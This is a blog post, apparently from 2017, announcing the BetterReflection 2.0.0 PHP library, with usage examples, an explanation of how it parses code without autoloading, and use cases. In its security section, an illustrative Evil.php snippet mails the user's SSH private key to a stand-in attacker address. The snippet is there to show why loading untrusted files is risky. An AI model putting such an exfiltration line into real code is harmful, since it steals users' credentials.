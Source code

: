 ```yaml
---
layout: post
title: BetterReflection version 2.0.0 released
category: Security
tags: ["PHP", "Library", "Roave", "Clean Code", "Tools"]
year: 2017
month: 9
day: 18
published: true
summary: BetterReflection version 2 was released: let's look at its main features and improvements
description: BetterReflection is a library that aims at providing additional and improved Reflection API compared to PHP's ext-reflection
tweet: 
---
```

<p>
    <a href="https://twitter.com/RoaveTeam" target="_blank" rel="fn org">Roave</a>'s
    <a href="https://github.com/Roave/BetterReflection" target="_blank">BetterReflection</a>
    <a href="https://github.com/Roave/BetterReflection/releases/tag/2.0.0" target="_blank">2.0.0s</a>
    was released today!
</p>

<p>
    I and <a href="http://twitter.com/asgrim" target="_blank">James Titcumb</a> started working on this
    project back in 2015, and it is a pleasure to see it reaching maturity.
</p>

<p>
    The initial idea was simple: James would implement all my wicked ideas, while I
    would lay back and get drunk on Drambuie.
</p>

<p>
    <img
        src="../../img/posts/2017-09-18-roave-better-reflection-v2.0.0/drunken-coding.jpg"
        alt="Me, drunk in bed. Photo by @Asgrim, since I was too drunk to human"
    />
</p>

<p>
    Yes, that actually happened. Thank you, James, for all the hard work! 🍻
</p>

<p>
    <small>(I did some work too, by the way!)</small>
</p>

<h3>What the heck is BetterReflection?</h3>

<p>
    Jokes apart, the project is quite ambitious, and it aims at reproducing the entirety of the PHP
    reflection API without having any actual autoloading being triggered.
</p>

<p>
    When put in use, it looks like this:
</p>

~~~php
<?php

// src/MyClass.php

namespace MyProject;

class MyClass
{
    public function something() {}
}
~~~

~~~php
<?php

// example1.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\ReflectionMethod;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$methodNames = \array_map(function (ReflectionMethod $method) : string {
    return $method->getName();
}, $myClass->getMethods());

\var_dump($methodNames);

// class was not loaded:
\var_dump(\sprintf('Class %s loaded: ', MyClass::class));
\var_dump(\class_exists(MyClass::class, false));
~~~

<p>
    As you can see, the difference is just in how you bootstrap the reflection API.
</p>

<p>
    Also, we do provide a fully backwards-compatible reflection API that you can use
    if your code heavily relies on <code>ext-reflection</code>:
</p>

~~~php
<?php

// example2.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\Adapter\ReflectionClass;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$reflectionClass = new ReflectionClass($myClass);

// You can just use it wherever you had `ReflectionClass`!
\var_dump($reflectionClass instanceof \ReflectionClass);
\var_dump($reflectionClass->getName());
~~~

<p>
    How does that work?
</p>

<p>
    The operational concept is quite simple, really:
</p>

<ol>
    <li>
        We scan your codebase for files matching the one containing your class.
        This is fully configurable, but by default we use some ugly autoloader
        hacks to find the file without wasting disk I/O.
    </li>
    <li>
        We feed your PHP file to <a href="https://github.com/nikic/PHP-Parserr" target="_blank">PHP-Parser</a>
    </li>
    <li>
        We analyse the produced <abbr title="Abstract Syntax Tree">AST</abbr> and
        wrap it in a matching <code>Roave\BetterReflection\Reflection\*</code>
        class instance, ready for you to consume it.
    </li>
</ol>

<p>
    The hard part is tracking the miriad of details of the PHP language,
    which is very complex and cluttered with scope, visibility and inheritance
    rules: we take care of it for you.
</p>

<h3>Use case scenarios</h3>

<p>
    The main use-cases for BetterReflection are most likely around security, code
    analysis and <abbr title="Ahead of Time">AOT</abbr> compilation.
</p>

<p>
    One of the most immediate use-cases will likely be in
    <a href="https://github.com/phpstan/phpstan" target="_blank">PHPStan</a>, which
    will finally be able to inspect hideous mixed OOP/functional/procedural code
    if <a href="https://github.com/phpstan/phpstan/issues/67" target="_blank">
        the current WIP implementation
    </a> works as expected.
</p>

<p>
    Since you can now "work" with code before having loaded it, you can harden API
    around a lot of security-sensitive contexts. A serializer may decide
    to not load a class if side-effects are contained in the file declaring it:
</p>

~~~php
<?php

// Evil.php
\mail(
    'haxxor@evil.com',
    'All ur SSH keys are belong to us',
    \file_get_contents('~/.ssh/id_rsa')
);

// you really don't want to autoload this bad one:
class Evil {}
~~~

<p>
    The same goes for classes implementing malicious <code>__destruct</code> code,
    as well as classes that may trigger autoloading of other malicious code.
</p>

<p>
    It is also possible to analyse code that is downloaded from the internet without
    actually running it. For instance, code may be checked against GPG signatures in
    the file signature before being run, effectively allowing PHP to "run only signed code".
    <a href="https://getcomposer.org/" target="_blank">Composer</a>, anybody?
</p>

<p>
    If you are more into code analysis, you may decide to compare two different
    versions of a library, and scan for <abbr title="Backwards Compatibility">BC</abbr>
    breaks:
</p>

~~~php
<?php
// the-library/v1/src/SomeApi.php

class SomeAPI
{
    public function sillyThings() { /* ... */ }
}
~~~

~~~php
<?php
// the-library/v2/src/SomeApi.php

class SomeAPI
{
    public function sillyThings(UhOh $bcBreak) { /* ... */ }
}
~~~

<p>
    In this scenario, somebody added a mandatory parameter to <code>SomeAPI#sillyThings()</code>,
    effectively introducing a BC break that is hard to detect without having both versions of the
    code available, or a good migration documentation (library developers: please document this
    kind of change!).
</p>

<p>
    Another way to leverage the power of this factory is to compile factory code into highly 
    optimised dependency injection containers, like
    <a href="https://github.com/PHP-DI/PHP-DI/pull/507" target="_blank">PHP-DI</a> started doing.
</p>

<h3>Future use cases?</h3>

<p>
    In addition to the above use-case scenarios, we are working on additional
    functionality that would allow
    <a href="https://github.com/Roave/BetterReflection/blob/2.0.0/demo/monkey-patching/index.php" target="_blank">
        changing code before loading it
    </a>. 
</p>

<p>
    Is that a good idea?
</p>

<p>
    ... I honestly don't know.
</p>

<p>
    Still, there are proper use-case scenarios around
    <abbr title="Aspect Oriented Programming">AOP</abbr> and proxying libraries,
    which would then be able to work even with <code>final</code> classes.
</p>

<p>
    You will likely see these features appear in a new, separate library.
</p>

<h3>Credits</h3>